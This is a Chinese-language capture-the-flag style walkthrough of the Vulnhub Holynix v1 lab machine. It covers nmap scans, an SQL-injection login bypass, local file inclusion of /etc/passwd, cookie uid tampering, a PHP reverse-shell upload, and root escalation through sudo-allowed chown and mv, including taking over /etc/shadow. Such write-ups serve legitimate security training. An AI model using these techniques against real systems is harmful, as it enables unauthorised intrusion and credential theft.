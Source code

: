 ```yaml
---
title: Vulnhub-Holynix：v1
published: 2025-03-09
tags: [Vulnhub]
category: 靶机
draft: false
---
```


# Holynix：v1

> [https://www.vulnhub.com/entry/holynix-v1,20/](https://www.vulnhub.com/entry/holynix-v1,20/)
> 

## 主机发现端口扫描

1. 探测存活主机，`153`为靶机
    
    ```php
    nmap -sP 192.168.75.0/24      
    //                      
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:09 CST
    Nmap scan report for 192.168.75.1
    Host is up (0.00026s latency).
    MAC Address: 00:50:56:C0:00:08 (VMware)
    Nmap scan report for 192.168.75.2
    Host is up (0.00026s latency).
    MAC Address: 00:50:56:FB:CA:45 (VMware)
    Nmap scan report for 192.168.75.153
    Host is up (0.0016s latency).
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    Nmap scan report for 192.168.75.254
    Host is up (0.0013s latency).
    MAC Address: 00:50:56:FB:E7:F4 (VMware)
    Nmap scan report for 192.168.75.151
    Host is up.
    
    ```
    
2. 扫描主机所有端口
    
    ```php
    nmap -sT -min-rate 10000 -p- 192.168.75.153     
    //    
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:10 CST
    Nmap scan report for 192.168.75.153
    Host is up (0.00054s latency).
    Not shown: 65534 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    ```
    
3. 扫描服务版本及系统版本
    
    ```php
    nmap -sT -sV -O -p80 192.168.75.153    
    //   
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:11 CST
    Nmap scan report for 192.168.75.153
    Host is up (0.0012s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running: Linux 2.6.X
    OS CPE: cpe:/o:linux:linux_kernel:2.6
    OS details: Linux 2.6.24 - 2.6.25
    Network Distance: 1 hop
    ```
    
4. 扫描漏洞
    
    ```sql
    nmap -script=vuln -p80 192.168.75.153    
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:12 CST
    Nmap scan report for 192.168.75.153
    Host is up (0.00059s latency).
    
    PORT   STATE SERVICE
    80/tcp open  http
    |_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
    |_http-dombased-xss: Couldn't find any DOM based XSS.
    | http-csrf: 
    | Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.75.153
    |   Found the following possible CSRF vulnerabilities: 
    |     
    |     Path: http://192.168.75.153:80/?page=login.php
    |     Form id: 
    |     Form action: /index.php?page=login.php
    |     
    |     Path: http://192.168.75.153:80/index.php?page=login.php
    |     Form id: 
    |_    Form action: /index.php?page=login.php
    | http-slowloris-check: 
    |   VULNERABLE:
    |   Slowloris DOS attack
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2007-6750
    |       Slowloris tries to keep many connections to the target web server open and hold
    |       them open as long as possible.  It accomplishes this by opening connections to
    |       the target web server and sending a partial request. By doing so, it starves
    |       the http server's resources causing Denial Of Service.
    |       
    |     Disclosure date: 2009-09-17
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
    |_      http://ha.ckers.org/slowloris/
    |_http-trace: TRACE is enabled
    | http-sql-injection: 
    |   Possible sqli for queries:
    |     http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/index.php?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/index.php?page=login.php%27%20OR%20sqlspider
    |_    http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    | http-enum: 
    |   /login.php: Possible admin folder
    |   /login/: Login page
    |   /home/: Potentially interesting folder
    |   /icons/: Potentially interesting folder w/ directory listing
    |   /img/: Potentially interesting folder
    |   /index/: Potentially interesting folder
    |   /misc/: Potentially interesting folder
    |   /transfer/: Potentially interesting folder
    |_  /upload/: Potentially interesting folder
    |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    ```
    
    一些页面可能存在`sql`注入以及`csrf` ，和一些让人感兴趣的目录
    

## web渗透

1. `Login`页面可能存在`sql`注入
    
    尝试后`name`框不存在注入，`password`框存在注入
    
    使用万能密码`1'or'1` 进入后台
    
2. 进入后台用户是`alamo` 
    
    看到有`upload`，尝试上传`shell`，显示该用户不允许上传文件
    
    `security`页面存在本文件包含，是个下拉选项框，可以修改属性达到包含本地目录，因为他的属性就是路径，修改为`/etc/passwd`
    
    ```sql
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    dhcp:x:101:102::/nonexistent:/bin/false
    syslog:x:102:103::/home/syslog:/bin/false
    klog:x:103:104::/home/klog:/bin/false
    sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
    mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
    alamo:x:1000:115::/home/alamo:/bin/bash
    etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
    gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
    hreiser:x:1003:50::/home/hreiser:/bin/bash
    jdraper:x:1004:100::/home/jdraper:/bin/bash
    jjames:x:1005:50::/home/jjames:/bin/bash
    jljohansen:x:1006:115::/home/jljohansen:/bin/bash
    ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
    kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
    mrbutler:x:1009:50::/home/mrbutler:/bin/bash
    rtmorris:x:1010:100::/home/rtmorris:/bin/bash
    ```
    
3. 抓包查看，发现`cookie`设置当前`uid=1`，尝试修改`cookie`的`uid=2`，切换用户成功，切换到了`etenenbaum` ，尝试上传`shell`文件(shell文件使用`/usr/shar/lau../php`里面的，我自己上传的`shell`有问题)
    
    ![image.png](image%2017.png)
    
    上传成功，因为标题显示`home`目录`upload`，所以存放在`/~etenenbaum` 
    
    打开文件发现失败，可能是权限不够，我们勾选自动解压看看是否能执行
    
    将文件使用gizp压缩后上传，在访问家目录，发现存在shell文件了
    
    ![image.png](image%2018.png)
    
    点开始空白页，就表示可以执行，应该是两种方式上传后的权限不一样
    
    ps：假如压缩包上传不了，抓包将`MIME`的`x-gzip`改为`gizp`就行，可以文件包含漏洞包含`transfer.php`代码审计
    
4. `kali`监听`1234`端口，然后访问`shell`文件，获得shell

## 提权

1. 查看权限
    
    ```sql
    www-data@holynix:/$ whoami 
    www-data
    //
    www-data@holynix:/$ uname -a
    Linux holynix 2.6.24-26-server #1 SMP Tue Dec 1 19:19:20 UTC 2009 i686 GNU/Linux
    //
    www-data@holynix:/$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    //
    www-data@holynix:/$ sudo -l
    User www-data may run the following commands on this host:
        (root) NOPASSWD: /bin/chown
        (root) NOPASSWD: /bin/chgrp
        (root) NOPASSWD: /bin/tar
        (root) NOPASSWD: /bin/mv
    ```
    
    好几条存在sudo不用密码的，可能可以利用
    
2. mv可以干很多事
    - 改`shadow`所属组
        
        ```sql
        www-data@holynix:/home$ sudo chown www-data /etc/shadow
        
        ```
        
        然后使用`john`破解
        
    - 将`/bin/su`替换成`/bin/tar`那么我们就拥有`root shell`了
        
        ```sql
        www-data@holynix:/home$ sudo mv /bin/tar /bin/tar.b
        www-data@holynix:/home$ sudo mv /bin/su /bin/tar
        www-data@holynix:/home$ sudo /bin/tar
        root@holynix:/home# 
        ```